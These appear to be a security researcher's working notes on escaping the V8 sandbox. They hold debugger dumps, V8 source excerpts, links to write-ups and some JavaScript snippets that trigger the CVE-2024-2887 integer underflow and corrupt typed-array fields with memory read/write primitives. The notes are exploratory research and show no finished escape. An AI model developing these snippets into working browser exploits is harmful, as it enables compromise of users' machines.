#13 0x00007ffff4514a60 in v8::internal::Heap::TearDown (this=0x5555557160f8) at ../../src/heap/heap.cc:6212
#14 0x00007ffff42a3e33 in v8::internal::Isolate::Deinit (this=0x555555708000) at ../../src/execution/isolate.cc:4215
#15 0x00007ffff42a381f in v8::internal::Isolate::Delete (isolate=0x555555708000) at ../../src/execution/isolate.cc:3833
#16 0x00007ffff3d272e5 in v8::Isolate::Dispose (this=0x555555708000) at ../../src/api/api.cc:9816
#17 0x000055555567edfd in v8::Shell::OnExit (isolate=0x555555708000, dispose=0x1) at ../../src/d8/d8.cc:3901
#18 0x000055555568c92b in v8::Shell::Main (argc=0x5, argv=0x7fffffffe2e8) at ../../src/d8/d8.cc:6233
#19 0x000055555568cd52 in main (argc=0x5, argv=0x7fffffffe2e8) at ../../src/d8/d8.cc:6256
#20 0x00007fffed1eb083 in __libc_start_main (main=0x55555568cd30 <main(int, char**)>, argc=0x5, argv=0x7fffffffe2e8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe2d8) at ../csu/libc-start.c:308
#21 0x00005555556388da in _start ()
```

**Rechecking** 

```cpp
pwndbg> find 0x1e700000000,0x1e800000000,0x1e700
0x1e70000004b
0x1e70000005b
0x1e70018004b
0x1e70018005b
0x1e7001c004b
0x1e7001c005b
0x1e70020004b
0x1e70020005b
0x1e70024004b
0x1e70024005b

// all of pointers are in readonly region 
```

### Finally 

Corrupting a MemoryChunk (metadata_index_, flags, etc.) does not result in escaping the v8 sandbox. 


Issue: https://issues.chromium.org/issues/40849120

Studying more...


## Escapse V8 Sandbox with changing JIT variables

Integer Underflow Leading to V8 Sandbox Escape:
  - https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome

**Set up**

```js
// r --allow-natives-syntax --print-code ../../../tests/test3.js
// Flags: --allow-natives-syntax

const gsab = new SharedArrayBuffer(4,{"maxByteLength":8});
const u16arr = new Uint16Array(gsab);

function foo(obj) {
    obj[1] = 0;
}

function test() {
    const u32arr = new Uint32Array();
    foo(u32arr);
    foo(u16arr);
}

// %SystemBreak();

%PrepareFunctionForOptimization(test);
%PrepareFunctionForOptimization(foo);
// test();
%OptimizeFunctionOnNextCall(foo);
test();
%OptimizeFunctionOnNextCall(test);
test();

```

## Studying v8 sandbox table mamping 

V8 sandbox has 3 tables outside of box: 
  - trusted pointer table (TPT) is used to safely reference trusted heap objects located in one of the trusted spaces outside of the sandbox
  - external buffer pointer table is storing pointer and size to buffer data located outside the sandbox.
  - code pointer table entry contains both a pointer to a Code object as well as a pointer to the entrypoint, and index is stored inside sandbox.

### Blogs


  - escape sandbox: https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome
  - chromium code search: https://source.chromium.org/chromium/chromium/src/+/main:v8/src/runtime/runtime-wasm.cc;l=156?q=Runtime_WasmGenericJSToWasmObject&sq=&ss=chromium%2Fchromium%2Fsrc
  - sandbox escaping by wasm global variables: https://blog.kylebot.net/2022/02/06/DiceCTF-2022-memory-hole/
    "In our case, the rwx region itself is outside the cage, so we cannot overwrite it directly. However, the pointer itself is still inside the cage. " => code pointer is still inside sandbox
  - high level design of v8 sandbox: https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit#heading=h.oe6ng3g0s3qh

  - sandbox documents: https://chromium.googlesource.com/v8/v8.git/+/refs/heads/main/src/sandbox/README.md

  - code gen registers: https://source.chromium.org/chromium/chromium/src/+/main:v8/src/codegen/x64/register-x64.h;l=289;drc=c73400e1f3f3b2a86baa9b850e2efd128340cfa1

  - external pointer sandboxing -> dont understand of its design: https://docs.google.com/document/d/1V3sxltuFjjhp_6grGHgfqZNK57qfzGzme0QTk0IXDHk/edit#heading=h.sadwydw11bf3

  - code pointer sandboxing: https://docs.google.com/document/d/1CPs5PutbnmI-c5g7e_Td9CNGh5BvpLleKCqUnqmD82k/edit
  

  - Trusted space: https://docs.google.com/document/d/1IrvzL4uX_Zv0k2Iakdp_q_z33bj-qlYF5IesGpXW0fM/edit
    -  interpreted bytecode likes vm opcodes, that will be executed by intepreter
  
  
  - ctf: https://github.com/google/google-ctf/tree/main/2023/quals/sandbox-v8box/solution 
    => they used `ldar` and `star` opcodes => load/store a value from a register into the accumulator.

  - tagging in v8 uses to identify the type of objects. If the last bit of a memory location is a 1, we are dealing with a pointer, and if it’s 0, we are dealing with a SMI.
  

  - Following the commit can make us know how many files is relative with the special object, e.g: https://source.chromium.org/chromium/_/chromium/v8/v8/+/093967a51ed5a30e9d6e9fd14bf9a4a0bd2af524
  - By corrupting BytecodeArray, we can execute arbitrary bytecode, corrupting stack:  https://kaist-hacking.github.io/pubs/2024/lee:v8-ctf-slides.pdf

### WebAssembly 

How it can load the webassembly function 

#### wasm instance object
```cpp
DebugPrint: 0x345a0029ae89: [WasmInstanceObject] in OldSpace
 - map: 0x345a0028f4d5 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x345a0028f581 <Object map = 0x345a0029b025>
 - elements: 0x345a00000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - trusted_data: 0x09f100040cc5 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - module_object: 0x345a0004a625 <Module map = 0x345a0028f3ad>
 - shared_part: 0x345a0029ae89 <Instance map = 0x345a0028f4d5>
 - exports_object: 0x345a0004a701 <Object map = 0x345a0029affd>
 - properties: 0x345a00000725 <FixedArray[0]>
 - All own properties (excluding elements): {}

0x345a0028f4d5: [Map] in OldSpace
 - map: 0x345a002816d9 <MetaMap (0x345a00281729 <NativeContext[295]>)>
 - type: WASM_INSTANCE_OBJECT_TYPE
 - instance size: 28
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - back pointer: 0x345a00000069 <undefined>
 - prototype_validity cell: 0x345a00000a89 <Cell value= 1>
 - instance descriptors (own) #0: 0x345a00000759 <DescriptorArray[0]>
 - prototype: 0x345a0028f581 <Object map = 0x345a0029b025>
 - constructor: 0x345a0028f4b5 <JSFunction Instance (sfi = 0x345a00147a41)>
 - dependent code: 0x345a00000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

pwndbg> x/30wx 0x345a0029ae89-1
0x345a0029ae88:	0x0028f4d5	0x00000725	0x00000725	0x00401200
0x345a0029ae98:	0x0004a625	0x0029ae89	0x0004a701	0x0028f731
0x345a0029aea8:	0x00000725	0x00000725	0x0004a735	0xfffffffe
0x345a0029aeb8:	0x00000000	0x0004a7a9	0x002816d9	0x2a021111
0x345a0029aec8:	0x0d00080e	0x084007ff	0x0028a161	0x00289fcd
0x345a0029aed8:	0x0004a779	0x00000735	0x00000a89	0x00000000
0x345a0029aee8:	0x00001ec5	0x00081b00	0xffffffff	0x00000069
0x345a0029aef8:	0x00000006	0x00000069

```


how can I read this address of `Wasm instance data`?? 
```
 - context: 0x3ba200281729 <NativeContext[295]>
 - code: 0x3ba200265afd <Code BUILTIN JSToWasmWrapper> // ??
 - Wasm instance data: 0x0cec00040ced <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)> //??
```

The program stored function_index in sandbox memory, so when they want to run this function, it need to calculate address by external pointer:
```cpp
WasmCode* NativeModule::GetCode(uint32_t index) const {
  base::RecursiveMutexGuard guard(&allocation_mutex_);
  WasmCode* code = code_table_[declared_function_index(module(), index)];
  if (code) WasmCodeRefScope::AddRef(code);
  return code;
}
```

```js
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

let wasm_instance_addr = addrOf(wasm_instance);
console.log("wasm_instance: 0x" + wasm_instance_addr.toString(16));

%DebugPrint(f);
console.log("==================================================================");

// %SystemBreak();

for (let i=0; i<10000; i++){
    f();
}
%DebugPrint(wasm_instance);
f();
%SystemBreak();
```
It goes through `Runtime_WasmCompileLazy` function for optimizing tierup 
```cpp
// v8/src/runtime/runtime-wasm.cc:406
RUNTIME_FUNCTION(Runtime_WasmCompileLazy) {
  ClearThreadInWasmScope wasm_flag(isolate);
  DCHECK_EQ(2, args.length());
  Tagged<WasmTrustedInstanceData> trusted_instance_data =
      WasmTrustedInstanceData::cast(args[0]);
  int func_index = args.smi_value_at(1);

  TRACE_EVENT1("v8.wasm", "wasm.CompileLazy", "func_index", func_index);
  DisallowHeapAllocation no_gc;
  SealHandleScope scope(isolate);

  DCHECK(isolate->context().is_null());
  isolate->set_context(trusted_instance_data->native_context());
  bool success = wasm::CompileLazy(isolate, trusted_instance_data, func_index);
  if (!success) {
    DCHECK(v8_flags.wasm_lazy_validation);
    AllowHeapAllocation throwing_unwinds_the_stack;
    wasm::ThrowLazyCompilationError(
        isolate, trusted_instance_data->native_module(), func_index);
    DCHECK(isolate->has_exception());
    return ReadOnlyRoots{isolate}.exception();
  }

  return Smi::FromInt(
      wasm::JumpTableOffset(trusted_instance_data->module(), func_index));
}
```

#### wasm function 

```cpp
DebugPrint: 0x345a0029afb9: [Function] in OldSpace
 - map: 0x345a002926fd <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x345a00281dc9 <JSFunction (sfi = 0x345a001474d1)>
 - elements: 0x345a00000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x345a0029af89 <SharedFunctionInfo js-to-wasm::i>
 - name: 0x345a000027e1 <String[1]: #0>
 - builtin: JSToWasmWrapper
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x345a00281729 <NativeContext[295]>
 - code: 0x345a00265afd <Code BUILTIN JSToWasmWrapper>
 - Wasm instance data: 0x09f100040cc5 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - Wasm function index: 0
 - properties: 0x345a00000725 <FixedArray[0]>
 - All own properties (excluding elements): {
    0x345a00000d99: [String] in ReadOnlySpace: #length: 0x345a00271bbd <AccessorInfo name= 0x345a00000d99 <String[6]: #length>, data= 0x345a00000069 <undefined>> (const accessor descriptor, attrs: [__C]), location: descriptor
    0x345a00000dc5: [String] in ReadOnlySpace: #name: 0x345a00271ba5 <AccessorInfo name= 0x345a00000dc5 <String[4]: #name>, data= 0x345a00000069 <undefined>> (const accessor descriptor, attrs: [__C]), location: descriptor
    0x345a00004215: [String] in ReadOnlySpace: #arguments: 0x345a00271b75 <AccessorInfo name= 0x345a00004215 <String[9]: #arguments>, data= 0x345a00000069 <undefined>> (const accessor descriptor, attrs: [___]), location: descriptor
    0x345a000044a9: [String] in ReadOnlySpace: #caller: 0x345a00271b8d <AccessorInfo name= 0x345a000044a9 <String[6]: #caller>, data= 0x345a00000069 <undefined>> (const accessor descriptor, attrs: [___]), location: descriptor
 }
 - feedback vector: feedback metadata is not available in SFI
0x345a002926fd: [Map] in OldSpace
 - map: 0x345a002816d9 <MetaMap (0x345a00281729 <NativeContext[295]>)>
 - type: JS_FUNCTION_TYPE
 - instance size: 28
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - callable
 - back pointer: 0x345a00000069 <undefined>
 - prototype_validity cell: 0x345a00000a89 <Cell value= 1>
 - instance descriptors (own) #4: 0x345a00292725 <DescriptorArray[4]>
 - prototype: 0x345a00281dc9 <JSFunction (sfi = 0x345a001474d1)>
 - constructor: 0x345a00281e6d <JSFunction Function (sfi = 0x345a00276e5d)>
 - dependent code: 0x345a00000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0


pwndbg> job 0x345a00265afd
0x345a00265afd: [Code] in ReadOnlySpace
 - map: 0x345a00000d61 <Map[60](CODE_TYPE)>
 - kind: BUILTIN
 - builtin_id: JSToWasmWrapper
 - deoptimization_data_or_interpreter_data: 0
 - position_table: 0
 - instruction_stream: 0
 - instruction_start: 0x7fff7fda38c0
 - is_turbofanned: 1
 - stack_slots: 59
 - marked_for_deoptimization: 0
 - embedded_objects_cleared: 0
 - can_have_weak_objects: 0
 - instruction_size: 9104
 - metadata_size: 244
 - inlined_bytecode_size: 0
 - osr_offset: -1
 - handler_table_offset: 244
 - unwinding_info_offset: 244
 - code_comments_offset: 244

pwndbg> x/20wx 0x345a00265afd-1
0x345a00265afc:	0x00000d61	0x002bf801	0x00000000	0x00000000
0x345a00265b0c:	0x00274c2d	0x00000000	0x00000772	0x00002390
0x345a00265b1c:	0x000000f4	0x00000000	0xffffffff	0x000000f4
0x345a00265b2c:	0x000000f4	0x000000f4	0x05fc0000	0x00000d61
0x345a00265b3c:	0x002bfa01	0x00000000	0x00000000	0x00274c35
pwndbg> p/x 244
$1 = 0xf4
pwndbg> p/x (0x345a0029afb9-0x345a00265afd)
$3 = 0x354bc

 RAX  0x0
*RBX  0x5555555fd000 —▸ 0x345a00000000 ◂— 0x40940
*RCX  0x345a00000000 ◂— 0x40940
*RDX  0x5555555fd000 —▸ 0x345a00000000 ◂— 0x40940
 RDI  0x0
*RSI  0x5555555fd000 —▸ 0x345a00000000 ◂— 0x40940
*R8   0x7fffffffd570 —▸ 0x7fffffffd598 —▸ 0x7fffffffd610 —▸ 0x7fffffffd7a0 —▸ 0x7fffffffd830 ◂— ...
*R9   0x233
*R10  0xfffffffffffffc6c
*R11  0x7ffff2f42970 (v8::base::OS::DebugBreak()) ◂— push rbp
*R12  0x5
*R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
*R14  0x5555556790d0 ◂— 0x1baddead0baddeaf
*R15  0x5555556790d0 ◂— 0x1baddead0baddeaf
*RBP  0x7fffffffd420 —▸ 0x7fffffffd460 —▸ 0x7fffffffd490 —▸ 0x7fffffffd4b0 —▸ 0x7fffffffd4f0 ◂— ...
*RSP  0x7fffffffd420 —▸ 0x7fffffffd460 —▸ 0x7fffffffd490 —▸ 0x7f
```

#### Memory limited

```js
// r --expose-gc --allow-natives-syntax --sandbox-testing ../../../tests/test3.js

let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

function addrOf(obj) {
    return Sandbox.getAddressOf(obj);
  }
  
  function v8_read64(addr) {
    return sandboxMemory.getBigUint64(Number(addr), true);
  }
  
  function v8_write64(addr, val) {
    return sandboxMemory.setBigInt64(Number(addr), val, true);
  }


const gsab = new SharedArrayBuffer(0x16,{"maxByteLength":0x4242});
const u16arr = new Uint16Array(gsab,0x10);
// u16arr[1] = 1;
// console.log(u16arr[1]);

function foo(obj,index, val) {
    obj[index] += val;
    return obj[index];

}

function test(iii,val) {
    return foo(u16arr, iii, val);
}

for (var i = 0; i < 0x10000; ++i) {
    test(1,0);
}
// %DebugPrint(gsab);
%DebugPrint(u16arr);
console.log(addrOf(u16arr));
console.log(v8_read64(addrOf(u16arr)+0x17));

v8_write64(addrOf(u16arr)+0x19,0x2e00000n);

%DebugPrint(u16arr);
d8.file.execute('/home/vult/Desktop/v8/v8/test/mjsunit/wasm/wasm-module-builder.js');
const builder = new WasmModuleBuilder();
let $sig_i_l = builder.addType(kSig_i_l); //let kSig_i_l = makeSig([kWasmI64], [kWasmI32]);

builder.addFunction("func0", $sig_i_l).exportFunc().addBody([ // function 1 convert from int32 to int64
  kExprLocalGet, 0,
  kExprI32ConvertI64,
]);
let instance = builder.instantiate();

console.log("===============================================================");
%DebugPrint(instance);
/// instance
DebugPrint: 0xe12002afd39: [WasmInstanceObject] in OldSpace
 - exports_object: 0x0e12000691c5 <Object map = 0xe12002afe55>

pwndbg> job 0x0e12000691c5
0xe12000691c5: [JS_OBJECT_TYPE]
 - All own properties (excluding elements): {
    0xe1200299bb9: [String] in OldSpace: #func0: 0x0e12002afe11 <JSFunction js-to-wasm:l:i (sfi = 0xe12002afde1)> (const data field 0, attrs: [_E_]), location: in-object
 }
pwndbg> job 0x0e12002afe11
0xe12002afe11: [Function] in OldSpace
 - code: 0x0e1200265afd <Code BUILTIN JSToWasmWrapper>

pwndbg> job 0x0e1200265afd
0xe1200265afd: [Code] in ReadOnlySpace
 - instruction_start: 
 
pwndbg> vmmap 0x7fff7fda38c0
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fff60000000     0x7fff7f480000 rwxp 1f480000      0 [anon_7fff60000]
►   0x7fff7f480000     0x7fff7fff3000 r-xp   b73000 195d000 /home/vult/Desktop/v8/v8/out/debug/libv8.so +0x9238c0
    0x7fff7fff3000     0x7fff80000000 rwxp     d000      0 [anon_7fff7fff3]
pwndbg> vmmap 0x7fff7fda38c0
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fff60000000     0x7fff7f480000 rwxp 1f480000      0 [anon_7fff60000]
►   0x7fff7f480000     0x7fff7fff3000 r-xp   b73000 195d000 /home/vult/Desktop/v8/v8/out/debug/libv8.so +0x9238c0
    0x7fff7fff3000     0x7fff80000000 rwxp     d000      0 [anon_7fff7fff3]

Memory layout 
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
     0xe0a00000000      0xe1200000000 ---p 800000000      0 [anon_e0a00000]
     0xe1200000000      0xe1200010000 r--p    10000      0 [anon_e1200000]
     0xe1200010000      0xe1200020000 ---p    10000      0 [anon_e1200010]
     0xe1200020000      0xe1200040000 r--p    20000      0 [anon_e1200020]
     0xe1200040000      0xe1200149000 rw-p   109000      0 [anon_e1200040]
     0xe1200149000      0xe1200180000 ---p    37000      0 [anon_e1200149]
     0xe1200180000      0xe120027e000 r--p    fe000      0 [anon_e1200180]
     0xe120027e000      0xe1200280000 ---p     2000      0 [anon_e120027e]
     0xe1200280000      0xe1200340000 rw-p    c0000      0 [anon_e1200280]
     0xe1200340000      0xe1300000000 ---p ffcc0000      0 [anon_e1200340]
     0xe1300000000      0xe1300100000 rw-p   100000      0 [anon_e1300000]
     0xe1300100000      0xe1500000000 ---p 1fff00000      0 [anon_e1300100]
     0xe1500000000      0xe1500001000 rw-p     1000      0 [anon_e1500000]
     0xe1500001000      0xf1a00000000 ---p 104fffff000      0 [anon_e1500001]
    0x1610e928c000     0x1610e928d000 rwxp     1000      0 [anon_1610e928c]
    0x319100000000     0x319100001000 rw-p     1000      0 [anon_319100000]
 
/// ===============================================================================

instance.exports.func0(0n);


%SystemBreak();

var ret = test(0x123,0);
console.log(ret);
```

#### FunctionData

- https://source.chromium.org/chromium/_/chromium/v8/v8/+/cf9373a0d6760146534b096cee60675a3ea09ad7

=> this commit removed all the `func_ref` (function pointer) into sandbox memory:


Loading function from functionData:

```cpp
// v8/src/codegen/code-stub-assembler.h
  TNode<WasmInternalFunction> LoadWasmInternalFunctionFromFunctionData(
      TNode<WasmFunctionData> data) {
    return CAST(LoadProtectedPointerField(
        data, WasmFunctionData::kProtectedInternalOffset)); 
        // WasmFunctionData::kProtectedInternalOffset = 0x14
  }
```
Example:

```js
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

let wasm_instance_addr = addrOf(wasm_instance);
console.log("wasm_instance: 0x" + wasm_instance_addr.toString(16));


// %SystemBreak();

for (let i=0; i<10000; i++){
    f();
}
%DebugPrint(f);
//==================================================================
DebugPrint: 0x3fd70029afd9: [Function] in OldSpace
 - map: 0x3fd7002926fd <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3fd700281dc9 <JSFunction (sfi = 0x3fd7001474d1)>
 - elements: 0x3fd700000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x3fd70029afa9 <SharedFunctionInfo js-to-wasm::i>

/// =======================================================================
// get shared_info
Node* WasmGraphAssembler::LoadSharedFunctionInfo(Node* js_function) {
  return LoadFromObject(
      MachineType::TaggedPointer(), js_function,
      wasm::ObjectAccess::SharedFunctionInfoOffsetInTaggedJSFunction()); // offset = 0x10
}
// get function data
Node* WasmGraphAssembler::LoadFunctionDataFromJSFunction(Node* js_function) {
  Node* shared = LoadSharedFunctionInfo(js_function);
#if V8_ENABLE_SANDBOX
    static constexpr int kOffset =
        SharedFunctionInfo::kTrustedFunctionDataOffset; // 4
#else
    static constexpr int kOffset = SharedFunctionInfo::kFunctionDataOffset;
#endif
  return LoadTrustedPointerFromObject(shared,
                                      wasm::ObjectAccess::ToTagged(kOffset),
                                      kWasmFunctionDataIndirectPointerTag);
}
/// ...
/// v8/src/compiler/wasm-graph-assembler.cc
Node* WasmGraphAssembler::LoadTrustedPointerFromObject(Node* object,
                                                       int field_offset,
                                                       IndirectPointerTag tag) {
  Node* offset = IntPtrConstant(field_offset);
#ifdef V8_ENABLE_SANDBOX
  Node* handle = LoadFromObject(MachineType::Uint32(), object, offset);
  return BuildDecodeTrustedPointer(handle, tag);
#else
  return LoadFromObject(MachineType::TaggedPointer(), object, offset);
#endif
}
// next call
// v8/src/compiler/wasm-graph-assembler.cc
Node* WasmGraphAssembler::LoadFromObject(MachineType type, Node* base,
                                         Node* offset) {
  return AddNode(graph()->NewNode(
      simplified_.LoadFromObject(ObjectAccess(type, kNoWriteBarrier)), base,
      offset, effect(), control()));
}
// next call
// %rdi, %rsi, %rdx, %rcx, %r8, and %r9.

// next call : src/compiler/simplified-operator.cc:2187
ACCESS_OP_LIST(ACCESS)

//next 
  // When V8_ENABLE_PRECISE_ZONE_STATS is defined, the allocated bytes are
  // associated with the T type.
  template <typename T, typename... Args>
  T* New(Args&&... args) {
    static_assert(alignof(T) <= kAlignmentInBytes);
    void* memory = Allocate<T>(sizeof(T));
    return new (memory) T(std::forward<Args>(args)...);
  }
// next 
// v8/src/compiler/operator.h
// A templatized implementation of Operator that has one static parameter of
// type {T} with the proper default equality and hashing functions.
template <typename T, typename Pred = OpEqualTo<T>, typename Hash = OpHash<T>>
class Operator1 : public Operator {
 public:
  Operator1(Opcode opcode, Properties properties, const char* mnemonic,
            size_t value_in, size_t effect_in, size_t control_in,
            size_t value_out, size_t effect_out, size_t control_out,
            T parameter, Pred const& pred = Pred(), Hash const& hash = Hash())
      : Operator(opcode, properties, mnemonic, value_in, effect_in, control_in,
                 value_out, effect_out, control_out),
        parameter_(parameter),
        pred_(pred),
        hash_(hash) {}

/// ====================================================================================
// jsfuncion 
pwndbg> x/30wx 0x3fd70029afd9-1
0x3fd70029afd8:	0x002926fd	0x00000725	0x00000725	0x00401c01
0x3fd70029afe8:	0x0029afa9	0x00281729	0x001400a9	0x002816d9
// shared_info ptr
pwndbg> x/30wx 0x3fd70029afa9-1
0x3fd70029afa8:	0x00000d39	0x00401600	0xfffffffe	0x000027e1

```


### JSArray

```js

const buffer = new Uint8Array(0x100);
%DebugPrint(buffer);

/// ===================================================
DebugPrint: 0x12c0004a541: [JSTypedArray]
 - map: 0x012c0028380d <Map[76](UINT8ELEMENTS)> [FastProperties]
 - prototype: 0x012c002838a1 <Object map = 0x12c00283835>
 - elements: 0x012c00000ec1 <ByteArray[0]> [UINT8ELEMENTS]
 - embedder fields: 2
 - cpp_heap_wrappable: 0
 - buffer: 0x012c0004a4fd <ArrayBuffer map = 0x12c00289fcd>
 - byte_offset: 0
 - byte_length: 256
 - length: 256
 - data_ptr: 0x12d00000000
   - base_pointer: (nil)
   - external_pointer: 0x12d00000000
 - properties: 0x012c00000725 <FixedArray[0]>
 - All own properties (excluding elements): {}
 - elements: 0x012c00000ec1 <ByteArray[0]> {
       0-255: 0
 }
/// ==============================================
pwndbg> x/30wx 0x12c0004a541-1
0x12c0004a540:	0x0028380d	0x00000725	0x00000ec1	0x00000000
0x12c0004a550:	0x0004a4fd	0x00000068	0x00000000	0x00000000
///
pwndbg> job 0x012c0004a4fd
0x12c0004a4fd: [JSArrayBuffer]
 - map: 0x012c00289fcd <Map[68](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x012c0028a161 <Object map = 0x12c00289ff5>
 - elements: 0x012c00000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - cpp_heap_wrappable: 0
 - backing_store: 0x12d00000000
 - byte_length: 256
 - max_byte_length: 256
 - detach key: 0x012c00000069 <undefined>
 - detachable
 - properties: 0x012c00000725 <FixedArray[0]>
 - All own properties (excluding elements): {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
pwndbg> x/20wx 0x012c0004a4fd-1
0x12c0004a4fc:	0x00289fcd	0x00000725	0x00000725	0x00000000
0x12c0004a50c:	0x00000069	0x00000000	0x00000020	0x00000000
```

**==> they DON'T store array's length into v8 heap memory**

**v8/src/builtins** 
this directory contains the implementation of various built-in functions and objects provided by JavaScript. Purpose of `src/builtins`

1. Implementation of Standard Built-in Objects, such as `Array`, `Object`, `String`, `Number`, `Function`, `Date`, and more. 
2. Native JavaScript Functions. For example, methods like `Array.prototype.push`, `Object.keys`, `String.prototype.substring`, and many others are implemented here.
3. Performance Optimizations
4. Internal Utilities

///===============================================================


### ArrayBuffer

### SharedArrayBuffer

sab is a special type of buffer that allows multiple threads to read and write to the same memory space concurrently.

```js


```

### DataView

```js
const gsab = new SharedArrayBuffer(0x100,{"maxByteLength":0x4242});
const data = new DataView(gsab);
%DebugPrint(data);
/// ====================================================================
DebugPrint: 0xad000049a4d: [JSRabGsabDataView]
 - map: 0x0ad000290769 <Map[64](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0ad000287919 <Object map = 0xad000287721>
 - elements: 0x0ad000049a99 <FixedArray[19]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - buffer =0x0ad000049a09 <SharedArrayBuffer map = 0xad000291375>


```
